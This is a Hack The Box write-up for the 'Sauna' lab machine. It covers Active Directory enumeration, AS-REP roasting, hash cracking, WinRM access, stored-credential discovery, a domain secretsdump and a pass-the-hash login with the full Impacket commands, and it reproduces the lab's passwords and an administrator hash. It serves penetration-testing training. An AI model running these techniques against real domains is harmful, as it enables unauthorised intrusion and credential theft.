# HTB - Sauna

#### Ip: 10.10.10.175
#### Name: Sauna
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.175          
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 13:27 CDT
Nmap scan report for 10.10.10.175
Host is up (0.071s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49689/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```

Looks like this machine has all the classic signs of a Domain Controller. Lets further enumerate the open ports by scanning with the `-sV` and `-sC` flags to enumerate versions and to use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ sudo nmap -sC -sV -T4 10.10.10.175 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49696
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 13:30 CDT
Nmap scan report for 10.10.10.175
Host is up (0.071s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-05 01:30:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T01:31:38
|_  start_date: N/A
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.31 seconds
```

Lets go ahead and add EGOTISTICAL-BANK.LOCAL to /etc/hosts.

With Active Directory boxes, if possible, my favorite way to start is by enumerating LDAP. This requires little effort and can yield some great results and low hanging fruit. 

There are several ways to enumerate LDAP, but one of the easiest ways is to kick off an Nmap scan against the service. 

Here I'll run:

`sudo nmap --script "ldap*" -p 389 10.10.10.175`

Which drops a user for us!



Armed with this name, lets create a list of common naming conventions in order to try to A) find Hugo's true username and B) use this naming convention to enumerate more users.

I'll add the following possible usernames to a file called hugo.txt:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ cat >> hugo.txt                                                                     
hugosmith
hsmith
h.smith
hugo.smith
smith.hugo
hugo.s
```

Now lets try Impacket's GetNPUsers script to see if we can verify a true username and/or dump some hashes:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile hugo.txt -dc-ip 10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Ok great, so while we were unable to exploit this, we were able to verify Hugo's username as well as the naming convention for Egotistical-Bank is first_letter_of_first-name.last_name (hsmith).

Lets enumerate the website on port 80 to see if we can find more info. After browsing around a bit, I found an "About Us" page that seemed useful, as it listed several other Egotistical-Bank employees:



So now that we know the naming convention being used here, lets simply create a new file called users.txt, with all the employees names we've found so far:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ cat >> users.txt
fsmith
scoins
hbear
btaylor
sdriver
skerb
hsmith
```

Now let's go back to the Impacket script used above to see if we can grab any Kerberos tickets now:



Nice!

Lets add fsmith's ticket to a file called fsmith_hash.txt and try to crack it with JohnTheRipper:



John was able to crack the hash pretty quickly, and we now should have some working credentials; fsmith:Thestrokes23 (I forgot about The Strokes, they were a great band!) - Let's see what we can do with these creds.

Thinking back to our initial Nmap scans, I recall that port 5985/winrm was open, so we should hopefully just be able to use evil-winrm to get on the box. 


Now lets grab the first flag:



### Privilege Escalation

Good practice when you initially land on a domain connected machine is to run the `net users /domain` command, to see if you've missed any valid usernames along the way:

```text
*Evil-WinRM* PS C:\Users\FSmith\Desktop> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
```

I'll go ahead and add Administrator and svc_loanmgr to our users.txt list

Another good practice is to always use valid creds to see if you can perform a secrets-dump against the domain using found credentials. In this case no luck with that for fsmith, and we'll need to keep enumerating a bit more:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-secretsdump EGOTISTICAL-BANK.LOCAL/fsmith:Thestrokes23@10.10.10.175                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

After uploading WinPEAS to the machine and running it, we find some stored AutoLogon credentials for svc_loanmgr:

```text
*Evil-WinRM* PS C:\Users\Fsmith\Documents> upload ~/Tools/privesc/winPEASx64.exe
Info: Uploading ~/Tools/privesc/winPEASx64.exe to C:\Users\Fsmith\Documents\winPEASx64.exe
```



Awesome, lets go back and try Impacket's secretsdump again, but with these credentials instead this time:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-secretsdump 'EGOTISTICAL-BANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175
```



Nice! We should now have the keys to the kingdom here (It's a good feeling to have to zoom way out, just to include all hashes you dumped in a screenshot!). Lets see if we can pass-the-hash with the administrator NTLM hash to logon and collect the last flag:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-psexec administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```



All that's left to do now is grab the root.txt file on the Administrator's Desktop:



### Something Extra

One of my favorite things about this box was finding Hugo Smith's name, trying out and then confirming the appropriate naming convention for usernames, and simply applying that logic to other found names to generate a working users list. 

Funnily enough, I also launched Kerbrute against the box after rooting it the first time, just trying to enumerate users, and Kerbute was able to ASREP roast fsmith's ticket, completely bypassing what was (in my opinion) the most interesting part of the box!



From here all you'd need to do is crack the ticket and logon as fsmith, without any of that initial recon.

That said, this is still a great beginner level Active Directory box which illustrated some foundational topics, and I had fun completing it.

Thanks for following along!

-Ryan

------------------------------------------------------------------------------------------------
